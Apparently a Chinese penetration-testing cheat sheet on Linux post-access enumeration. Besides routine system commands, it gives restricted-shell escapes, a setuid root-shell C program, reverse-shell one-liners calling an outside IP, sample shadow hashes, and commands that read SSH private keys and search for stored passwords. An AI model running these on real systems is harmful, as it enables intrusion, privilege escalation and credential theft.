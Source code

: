 信息收集 - Linux
========================================

获取内核，操作系统和设备信息
----------------------------------------
- PEASS-ng
	- 列举在Linux系统上提升特权的所有可能方法
	- ``https://github.com/carlospolop/PEASS-ng`` 
- LinEnum
	- Linux文件枚举及权限提升检查工具
	- ``https://github.com/rebootuser/LinEnum`` 
- 版本信息
    - ``uname -a`` 所有版本
    - ``uname -r`` 内核版本信息
    - ``uname -n`` 系统主机名字
    - ``uname -m`` Linux内核架构
- 内核信息 ``cat /proc/version``
- CPU信息 ``cat /proc/cpuinfo``
- 发布信息
    - ``cat /etc/*-release``
    - ``cat /etc/issue``
- 主机名 ``hostname``
- 文件系统 ``df -a``
- 内核日志 ``dmesg`` / ``/var/log/dmesg``
- 查看当前shell ``echo $0`` ``which sh``
	+ Restricted Shell
	
	::
	
		使用“rbash”，“ - restricted”，“ - r”选项启动任何现有的shell，那么它将成为Restricted shell。
		Restricted Shell将限制用户执行大多数命令和更改当前工作目录。Restricted Shell将对用户施加以下限制。
		1.它不允许您执行cd命令。所以你不能去任何地方。您可以简单地留在当前的工作目录中。
		2.它不允许您修改  $ PATH，$ SHELL，$ BASH_ENV或$ ENV环境变量的值。
		3.它不允许您执行包含/（斜杠）字符的程序。例如，您无法运行/ usr / bin / uname或./uname命令。
		4.您无法使用'重定向输出'>'，'> |'，'<>'，'>＆'，'＆>'，'和'>>'重定向运算符。
		5.它不允许您在脚本中退出受限制的shell模式。
		6.它不允许您使用'set + r'或'set + o restricted'关闭受限制的shell模式。
		常见的受限制 shell 有:rbash、rksh、rsh、lshell.
	
	+ dash
	
	::
	
		当 /bin/sh指向/bin/dash的时候，dash这个shell只有运行脚本的能力，而没有交互能力。反弹shell用bash的话必须得这样弹：
		root bash -c "bash -i  >&/dev/tcp/106.13.124.93/2333 0>&1"
		ubuntu中，当不能指定用户名
		bash -c "bash -i  >&/dev/tcp/106.13.124.93/2333 0>&1"
		或者有权限改变/bin/sh的连接指向/bin/bash后：
		ln -s -f /bin/bash /bin/sh
		反弹shell可以用最常见的办法： 
		/bin/bash -i >& /dev/tcp/ip(vps)/7999 0>&1
		
- 突破受限shell
	- 枚举Linux环境
		
	::
	
		枚举是找到突破方法的重要组成部分。我们需要枚举Linux环境来检测为了绕过rbash我们可以做哪些事。
		在正式进行绕过测试之前,我们需要进行以下操作:
		1、首先,我们必须检查可用命令,像cd、ls、echo等
		2、接下来我们要检查常见的操作符,像>、>>、<、|
		3、然后对可用的编程语言进行检查,如perl、ruby、python等
		4、通过sudo -l命令检查我们可以使用root权限运行哪些命令
		5、使用SUID perm检查文件或命令。
		6、使用echo $SHELL命令检查当前使用的是什么shell(90%得到的结果是rbash)
		7、使用env或者printenv命令检查环境变量
		通过以上操作,我们已收集到一些游泳的信息,接下来尝试一下通用的利用方法。
		
	- 通用利用技巧

	::
	
		1、如果"/"命令可用的话,运行/bin/sh或者/bin/bash
		2、运行cp命令,将/bin/sh或者/bin/bash复制到当前目录
		3、在ftp中运行!/bin/sh或者!/bin/bash,如下图所示
		4、在gdb中运行!/bin/sh或者!/bin/bash
		5、在more、man、less中运行!/bin/sh或者!/bin/bash
		6、在vim/vi中运行!/bin/sh或者!/bin/bash
		7、在rvim中执行:python import os; os.system("/bin/bash )
		8、scp -S /path/yourscript x y:
		9、awk 'BEGIN {system("/bin/sh or /bin/bash")}'
		10、find / -name test -exec /bin/sh or /bin/bash \;
		
	- 编程语言技巧
	
	::
	
		1、使用except spawn
		2、python -c 'import os; os.system("/bin/sh")'
		3、php -a then exec("sh -i");
		4、perl -e 'exec "/bin/sh";'
		5、Lua:os.execute('/bin/sh').
		6、ruby:exec "/bin/sh"
		7、python: echo os.system('/bin/bash')
		
	- 高级利用技巧
	
	::
	
		1、ssh username@IP – t "/bin/sh" or "/bin/bash"
		2、ssh username@IP -t "bash –noprofile"
		3、ssh username@IP -t "() { :; }; /bin/bash" (shellshock)
		4、ssh -o ProxyCommand="sh -c /tmp/yourfile.sh" 127.0.0.1 (SUID)
		5、git帮助状态下通过!/bin/bash进入交互式shell
		6、pico -s "/bin/bash"进入编辑器写入/bin/bash然后按ctrl + T键
		7、zip /tmp/test.zip /tmp/test -T –unzip-command="sh -c /bin/bash"
		8、tar cf /dev/null testfile –checkpoint=1 –checkpointaction=exec=/bin/bash
		9、c setuid shell:
		#include <stdlib.h>
		#include <unistd.h>
		#include <stdio.h>
		int main(int argc,char **argv,char **envp)
		{
			setresgid(getegid(),getegid(),getegid());
			setresuid(geteuid(),geteuid(),geteuid());
			
		 execve("/bin/sh",argv,envp);
		 return 0;
		}
			
	- ``ssh guest@x.x.x.x -t "python -c 'import pty;pty.spawn(\"/bin/bash\")'"``

用户和组
----------------------------------------
- 列出系统所有用户 ``cat /etc/passwd``
	::
	
		root:x:0:0::/root:/bin/bash
		bin:x:1:1::/:/usr/bin/nologin
		daemon:x:2:2::/:/usr/bin/nologin
		mail:x:8:12::/var/spool/mail:/usr/bin/nologin
		ftp:x:14:11::/srv/ftp:/usr/bin/nologin
		http:x:33:33::/srv/http:/usr/bin/nologin
		nobody:x:65534:65534:Nobody:/:/usr/bin/nologin
		dbus:x:81:81:System Message Bus:/:/usr/bin/nologin
		systemd-journal-remote:x:981:981:systemd Journal Remote:/:/usr/bin/nologin
		systemd-network:x:980:980:systemd Network Management:/:/usr/bin/nologin
		systemd-oom:x:979:979:systemd Userspace OOM Killer:/:/usr/bin/nologin
		systemd-resolve:x:978:978:systemd Resolver:/:/usr/bin/nologin
		systemd-timesync:x:977:977:systemd Time Synchronization:/:/usr/bin/nologin
		systemd-coredump:x:976:976:systemd Core Dumper:/:/usr/bin/nologin
		uuidd:x:68:68::/:/usr/bin/nologin
		dhcpcd:x:975:975:dhcpcd privilege separation:/:/usr/bin/nologin
		py:x:1000:1000::/home/py:/bin/bash
		git:x:974:974:git daemon user:/:/usr/bin/git-shell
		redis:x:973:973:Redis in-memory data structure store:/var/lib/redis:/usr/bin/nologin
		
		注册名：口令：用户标识号：组标识号：用户名：用户主目录：命令解释程序
		(1)注册名(login_name)：该字段被限制在8个字符(字母或数字)的长度之内,字母大小写是敏感的。
		(2)口令(passwd)：系统用口令来验证用户的合法性。
		现在的Unix/Linux系统中，口令不再直接保存在passwd文件中，通常将passwd文件中的口令字段使
		用一个“x”来代替，将/etc/shadow作为真正的口令文件，用于保存包括个人口令在内的数据。
		如果passwd字段中的第一个字符是“*”的话，表示系统不允许持有该账号的用户登录。 
		(3)用户标识号(UID)：UID是一个数值，是Linux系统中惟一的用户标识，用于区别不同的用户。 
		(4)组标识号(GID)：这是当前用户的缺省工作组标识。
		(5)用户名(user_name)：包含有关用户的一些信息。
		(6)用户主目录(home_directory)：该字段定义了个人用户的主目录。
		(7)命令解释程序(Shell)：通常是一个Shell程序的全路径名，如/bin/bash。 

- 列出系统所有组 ``cat /etc/group``
- 列出所有用户hash（root）``cat /etc/shadow``
	::
	
		root:$6$RucK3DjUUM8TjzYJ$x2etp95bJSiZy6WoJmTd7UomydMfNjo97Heu8nAob9Tji4xzWSzeE0Z2NekZhsyCaA7y/wbzI.2A2xIL/uXV9.:18450:0:99999:7:::
		daemon:*:18440:0:99999:7:::
		bin:*:18440:0:99999:7:::
		sys:*:18440:0:99999:7:::
		sync:*:18440:0:99999:7:::
		games:*:18440:0:99999:7:::
		man:*:18440:0:99999:7:::
		lp:*:18440:0:99999:7:::
		mail:*:18440:0:99999:7:::
		news:*:18440:0:99999:7:::
		uucp:*:18440:0:99999:7:::
		proxy:*:18440:0:99999:7:::
		www-data:*:18440:0:99999:7:::
		backup:*:18440:0:99999:7:::
		list:*:18440:0:99999:7:::
		irc:*:18440:0:99999:7:::
		gnats:*:18440:0:99999:7:::
		nobody:*:18440:0:99999:7:::
		_apt:*:18440:0:99999:7:::
		systemd-timesync:*:18440:0:99999:7:::
		systemd-network:*:18440:0:99999:7:::
		systemd-resolve:*:18440:0:99999:7:::
		messagebus:*:18440:0:99999:7:::
		avahi-autoipd:*:18440:0:99999:7:::
		sshd:*:18440:0:99999:7:::
		avahi:*:18440:0:99999:7:::
		saned:*:18440:0:99999:7:::
		colord:*:18440:0:99999:7:::
		hplip:*:18440:0:99999:7:::
		systemd-coredump:!!:18440::::::
		296640a3b825115a47b68fc44501c828:$6$x4sSRFte6R6BymAn$zrIOVUCwzMlq54EjDjFJ2kfmuN7x2BjKPdir2Fuc9XRRJEk9FNdPliX4Nr92aWzAtykKih5PX39OKCvJZV0us.:18450:0:99999:7:::
		
		文件的格式为：{用户名}：{加密后的口令密码}：{口令最后修改时间距原点(1970-1-1)的天数}：{口令最小修改间隔(防止修改口令，如果时限未到，将恢复至旧口令)：{口令最大修改间隔}：{口令失效前的警告天数}：{账户不活动天数}：{账号失效天数}：{保留}
		其中{加密后的口令密码}的格式为 $id$salt$encrypted
		id为1时，采用md5算法加密
		id为5时，采用SHA256算法加密
		id为6时，采用SHA512算法加密
		salt为盐值,是对密码进行hash的一个干扰值
		encrypted为散列值
	
- 用户
    - 查询用户的基本信息 ``finger``
    - 当前登录的用户 ``users`` ``who -a`` ``/var/log/utmp``
- 目前登录的用户 ``w``
- 登入过的用户信息 ``last`` / ``/var/log/wtmp``
- 显示系统中所有用户最近一次登录信息 ``lastlog`` / ``/var/log/lastlog``
- 登录成功日志 ``/var/log/secure``
- 登录失败日志 ``/var/log/faillog``
- 查看特权用户 ``grep :0 /etc/passwd``
- 查看passwd最后修改时间 ``ls -l /etc/passwd``
- 查看是否存在空口令用户 ``awk -F: 'length($2)==0 {print $1}' /etc/shadow``
- 查看远程登录的账号 ``awk '/\$1|\$6/{print $1}' /etc/shadow``
- 查看具有sudo权限的用户
    - ``cat /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"``

用户和权限信息
----------------------------------------
- 当前用户 ``whoami``
- 当前用户信息 ``id``
- 可以使用sudo提升到root的用户（root） ``cat /etc/sudoers``
- 列出目前用户可执行与无法执行的指令 ``sudo -l``

环境信息
----------------------------------------
- 打印系统环境信息 ``env``
- 打印系统环境信息 ``set``
- 环境变量中的路径信息 ``echo  $PATH``
- 打印历史命令 ``history`` / ``~/.bash_history``
- 显示当前路径 ``pwd``
- 显示默认系统遍历 ``cat /etc/profile``
- 显示可用的shell ``cat /etc/shells``

进程信息
----------------------------------------
- 查看进程信息 ``ps aux`` ``ps ef``
- 资源占有情况 ``top -c``
- 查看进程关联文件 ``lsof -c $PID``

服务信息
----------------------------------------
- 由inetd管理的服务列表 ``cat /etc/inetd.conf``
- 由xinetd管理的服务列表 ``cat /etc/xinetd.conf``
- nfs服务器的配置 ``cat /etc/exports``
- 邮件信息 ``/var/log/mailog``

计划任务
----------------------------------------
- 显示指定用户的计划作业（root） ``crontab -l -u %user%``
- 计划任务
    - ``/var/spool/cron/*``
    - ``/var/spool/anacron/*``
    - ``/etc/crontab``
    - ``/etc/anacrontab``
    - ``/etc/cron.*``
    - ``/etc/anacrontab``
- 开机启动项
    - ``/etc/rc.d/init.d/``

有无明文存放用户密码
----------------------------------------
- grep -i user [filename]
- grep -i pass [filename]
- grep -C 5 "password" [filename]
- find , -name "\*\.php" -print0 | xargs -0 grep -i -n "var \$password"

有无ssh 私钥
----------------------------------------
- cat ~/.ssh/authorized_keys
- cat ~/.ssh/identity.pub
- cat ~/.ssh/identity
- cat ~/.ssh/id_rsa.pub
- cat ~/.ssh/id_rsa
- cat ~/.ssh/id_dsa.pub
- cat ~/.ssh/id_dsa
- cat /etc/ssh/ssh_config
- cat /etc/ssh/sshd_config
- cat /etc/ssh/ssh_host_dsa_key.pub
- cat /etc/ssh/ssh_host_dsa_key
- cat /etc/ssh/ssh_host_rsa_key.pub
- cat /etc/ssh/ssh_host_rsa_key
- cat /etc/ssh/ssh_host_key.pub
- cat /etc/ssh/ssh_host_key


网络、路由和通信
----------------------------------------
- 列出网络接口信息 ``/sbin/ifconfig -a`` / ``ip addr show``
- 列出网络接口信息 ``cat /etc/network/interfaces``
- 查看系统arp表 ``arp -a``
- 打印路由信息 ``route`` / ``ip ro show``
- 查看dns配置信息 ``cat /etc/resolv.conf``
- 打印本地端口开放信息 ``netstat -an``
- 列出iptable的配置规则 ``iptables -L``
- 查看端口服务映射 ``cat /etc/services``
- Hostname ``hostname -f``
- 查看进程端口情况 ``netstat -anltp | grep $PID``

已安装程序
----------------------------------------
- ``rpm -qa --last`` Redhat
- ``yum list | grep installed`` CentOS
- ``ls -l /etc/yum.repos.d/``
- ``dpkg -l`` Debian
- ``cat /etc/apt/sources.list`` Debian APT
- ``pkg_info`` xBSD
- ``pkginfo`` Solaris
- ``pacman -Q`` Arch Linux

其它
----------------------------------------
- 最近五天的文件 ``find / -ctime +1 -ctime -5``
- 文件系统细节 ``debugfs``
- 历史命令：``cat /root/.bash_history``
